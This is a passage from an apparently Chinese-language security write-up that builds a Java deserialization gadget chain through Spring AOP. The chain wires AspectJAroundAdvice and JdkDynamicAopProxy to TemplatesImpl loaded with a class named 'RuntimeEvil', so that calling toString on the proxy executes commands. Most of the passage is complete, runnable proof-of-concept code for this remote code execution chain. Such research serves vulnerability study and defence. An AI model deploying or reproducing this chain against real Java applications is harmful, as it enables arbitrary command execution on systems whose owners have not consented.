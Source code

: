 ```java
        proxyInstance.toString();
```

发现必须给AbstractAspectJAdvice.pointcut设置一个expression，不然会报错，我们设置一个空的pointcut

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250604111213545.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250604111227782.png)

```java
AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
```

如下，手动调用toString就能完成命令执行了

```java
public class Aspectjweaver {
    public static void main(String[] args) throws Exception{
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class<?> templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        // 2. 获取 newTransformer 方法
        Method newTransformerMethod = templates.getDeclaredMethod("newTransformer");
        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templatesClass);
        AspectJExpressionPointcut aspectJExpressionPointcut = new AspectJExpressionPointcut();
        AspectJAroundAdvice aspectJAroundAdvice = new AspectJAroundAdvice(newTransformerMethod,aspectJExpressionPointcut,singletonAspectInstanceFactory);

//        Method invokeAdviceMethodWithGivenArgs = AbstractAspectJAdvice.class.getDeclaredMethod("invokeAdviceMethodWithGivenArgs",Object[].class);
//        invokeAdviceMethodWithGivenArgs.setAccessible(true);
//        invokeAdviceMethodWithGivenArgs.invoke(aspectJAroundAdvice,new Object[]{null});

        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.addAdvice(aspectJAroundAdvice);
        advisedSupport.setTarget(aspectJAroundAdvice);
        Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> jdkDynamicAopProxyClassConstructor = jdkDynamicAopProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        jdkDynamicAopProxyClassConstructor.setAccessible(true);
        Object proxyInstance = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Advised.class}, (InvocationHandler) jdkDynamicAopProxyClassConstructor.newInstance(advisedSupport));

        proxyInstance.toString();

    }
}
```
